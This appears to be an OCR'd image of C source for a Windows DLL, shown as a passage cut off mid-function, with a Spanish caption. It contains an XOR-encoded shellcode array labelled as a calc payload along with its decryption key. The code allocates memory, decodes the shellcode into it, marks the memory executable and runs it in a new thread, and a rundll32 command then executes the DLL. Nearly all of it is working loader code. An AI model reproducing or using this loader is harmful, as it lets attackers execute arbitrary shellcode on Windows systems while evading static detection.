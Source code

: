 ```c
	unsigned char calc_payload[] = { 0x85, 0x17, 0xdc, 0x89, 0x9f, 0x8c, 0xa1, 0x62, 0x61, 0x21, 0x60, 0x70, 0x38, 0xf, 0xd, 0x3c, 0x39, 0x2c, 0x50, 0xb0, 0x4, 0x69, 0xaa, 0x73, 0x19, 0x17, 0xd4, 0x3f, 0x77, 0x2c, 0xea, 0x30, 0x41, 0x69, 0xaa, 0x53, 0x29, 0x17, 0x50, 0xda, 0x25, 0x2e, 0x2c, 0x53, 0xa8, 0x69, 0x10, 0xe1, 0xd5, 0x63, 0x3e, 0x11, 0x6d, 0x48, 0x41, 0x23, 0xa0, 0xe8, 0x2c, 0x60, 0x78, 0x9e, 0xbd, 0x80, 0x3d, 0x25, 0x30, 0x2a, 0xea, 0x73, 0x1, 0xaa, 0x3b, 0x63, 0x17, 0x6c, 0xbf, 0xef, 0xe1, 0xea, 0x61, 0x21, 0x21, 0x69, 0xfc, 0x9f, 0x2b, 0xa, 0x27, 0x65, 0xb1, 0x32, 0xea, 0x69, 0x39, 0x65, 0xf2, 0x1f, 0x7f, 0x24, 0x6e, 0xb4, 0x82, 0x34, 0x29, 0xde, 0xe8, 0x60, 0xf2, 0x6b, 0xd7, 0x25, 0x6e, 0xb2, 0x2c, 0x53, 0xa8, 0x69, 0x10, 0xe1, 0xd5, 0x1e, 0x9e, 0xa4, 0x62, 0x25, 0x60, 0xa3, 0x59, 0xc1, 0x54, 0xd0, 0x35, 0x5c, 0x13, 0x49, 0x67, 0x21, 0x58, 0xb3, 0x14, 0xf9, 0x79, 0x65, 0xf2, 0x1f, 0x7b, 0x24, 0x6e, 0xb4, 0x7, 0x23, 0xea, 0x2d, 0x69, 0x65, 0xf2, 0x1f, 0x43, 0x24, 0x6e, 0xb4, 0x20, 0xe9, 0x65, 0xa9, 0x69, 0x20, 0xa9, 0x1e, 0x7, 0x2c, 0x37, 0x3a, 0x38, 0x38, 0x20, 0x79, 0x60, 0x78, 0x38, 0x5, 0x17, 0xee, 0x83, 0x44, 0x20, 0x30, 0x9e, 0xc1, 0x79, 0x60, 0x20, 0x5, 0x17, 0xe6, 0x7d, 0x8d, 0x36, 0x9d, 0x9e, 0xde, 0x7c, 0x69, 0xc3, 0x5e, 0x5f, 0x6d, 0x6f, 0x64, 0x61, 0x62, 0x61, 0x69, 0xac, 0xac, 0x78, 0x5e, 0x5f, 0x6d, 0x2e, 0xde, 0x50, 0xe9, 0xe, 0xa6, 0xde, 0xf4, 0xc2, 0xaf, 0xea, 0xcf, 0x39, 0x25, 0xdb, 0xc4, 0xf4, 0x9c, 0xbc, 0xde, 0xac, 0x17, 0xdc, 0xa9, 0x47, 0x58, 0x67, 0x1e, 0x6b, 0xa1, 0xda, 0xc1, 0xc, 0x5a, 0xe4, 0x2a, 0x7c, 0x16, 0xe, 0x8, 0x61, 0x78, 0x60, 0xa8, 0xa3, 0xa0, 0x8a, 0xe, 0xe, 0x8, 0x2, 0x4c, 0x4, 0x59, 0x44, 0x21 };
	unsigned int payload_len = sizeof(calc_payload);
	char key[] = "y__modaba!!!";
	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	XOR((char *) calc_payload, payload_len, key, sizeof(key));
	RtlMoveMemory(exec_mem, calc_payload, payload_len);
	rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);
	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, -1);
	}
	return 0;
	}
}

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  ul_reason_for_call, LPVOID lpReserved) {

    switch (ul_reason_for_call)  {
    case DLL_PROCESS_ATTACH:
		break;
    case DLL_THREAD_ATTACH:
		break;
    case DLL_THREAD_DETACH:
		break;
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```
La ejecución del proceso: 

```
rundll32.exe base_injection_exec.dll,f0ns1
```